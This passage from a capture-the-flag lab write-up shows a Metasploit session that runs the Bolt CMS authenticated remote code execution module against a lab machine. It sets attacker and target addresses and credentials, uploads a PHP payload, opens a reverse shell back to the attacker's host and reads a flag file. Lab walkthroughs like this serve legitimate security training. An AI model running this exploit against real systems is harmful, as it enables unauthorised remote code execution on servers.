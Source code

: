 ```sh
   Id  Name
   --  ----
   2   Linux (cmd)
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.13.0.34
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.105.96
RHOSTS => 10.10.105.96
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD REDACTED
PASSWORD => boltadmin123
msf5 exploit(unix/webapp/bolt_authenticated_rce) > 

```

Let's run the exploit so we can answer the last question:

[Task 8] Look for flag.txt inside the machine.
----------------------------------------------

```sh
msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.13.0.34:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "hxzhm".
[*] Found 4 potential token(s) for creating .php files.
[+] Deleted file evhhumxnxs.php.
[+] Deleted file jfdcqabl.php.
[+] Deleted file hgpputegi.php.
[+] Used token dc684ac30691d198a52d1110d6 to create helqvqylpa.php.
[*] Attempting to execute the payload via "/files/helqvqylpa.php?hxzhm=`payload`"
[*] Command shell session 7 opened (10.13.0.34:4444 -> 10.10.105.96:44727) at 2020-08-26 21:26:37 -0400
[!] No response, may have executed a blocking payload!
[+] Deleted file helqvqylpa.php.
[+] Reverted user profile back to original state.

ls
index.html
shell  
[*] Trying to find binary(python) on target machine
[*] Found python at 
[*] Using `python` to pop up an interactive shell
pwd
/home/bolt/public/files
cat /home/bolt/flag.txt
cat /home/flag.txt
THM{FLAG_REDACTED_YOU_GOT_THIS!}

```
